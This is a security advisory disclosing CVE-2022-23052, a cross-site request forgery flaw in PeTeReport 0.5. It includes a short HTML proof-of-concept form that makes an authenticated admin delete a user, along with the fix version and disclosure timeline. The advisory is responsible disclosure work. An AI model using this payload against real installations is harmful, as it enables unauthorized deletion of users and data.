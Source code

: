 ```yaml
---
slug: advisories/jett/
title: PeTeReport 0.5 - Cross-site request forgery
authors: Oscar Uribe
writer: ouribe
codename: jett
product: PeTeReport 0.5
date: 2022-02-09 12:00 COT
cveid: CVE-2022-23052
severity: 4.3
description: PeTeReport 0.5 - Cross-site request forgery
keywords: Fluid Attacks, Security, Vulnerabilities, PeTeReport
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                            |
|-------------------------|------------------------------------------------------------|
| **Name**                | PeTeReport 0.5 - Cross-site request forgery                |
| **Code name**           | [Jett](https://en.wikipedia.org/wiki/Joan_Jett)            |
| **Product**             | PeTeReport                                                 |
| **Affected versions**   | Version 0.5                                                |
| **Fixed versions**      | Version 0.7                                                |
| **State**               | Public                                                     |
| **Release date**        | 2022-02-23                                                 |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                       |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)    |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N/E:X/RL:X/RC:X       |
| **CVSSv3 Base Score** | 4.3                                                              |
| **Exploit available** | No                                                               |
| **CVE ID(s)**         | [CVE-2022-23052](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23052)                                                     |

## Description

PeteReport **Version 0.5** contains a Cross Site Request Forgery (CSRF)
vulnerability allowing an attacker to trick users into
deleting users, products, reports
and findings on the application.

## Proof of Concept

Steps to reproduce

1. Create a malicious html file with the following content.

    ```html
    <html>
    <body>
    <script>history.pushState('', '', '/')</script>
        <!--Change ID -->
        <form action="https://127.0.0.1/configuration/user/delete/:id">
        <input type="submit" value="Submit request" />
        </form>
    </body>
    </html>
    ```

2. If an authenticated admin visits the malicious url,
   the user with the correspond id will be deleted.

System Information

* Version: PeteReport Version 0.5.
* Operating System: Docker.
* Web Server: nginx.

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

An updated version of PeteReport is available at the vendor page.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://github.com/1modm/petereport>                               |
| **Issue**           | <https://github.com/1modm/petereport/issues/34>                     |

## Timeline

* 2022-02-07: Vulnerability discovered.

* 2022-02-07: Vendor contacted.

* 2022-02-09: Vendor replied acknowledging the report.

* 2022-02-09: Vulnerability patched.

* 2022-02-23: Public Disclosure.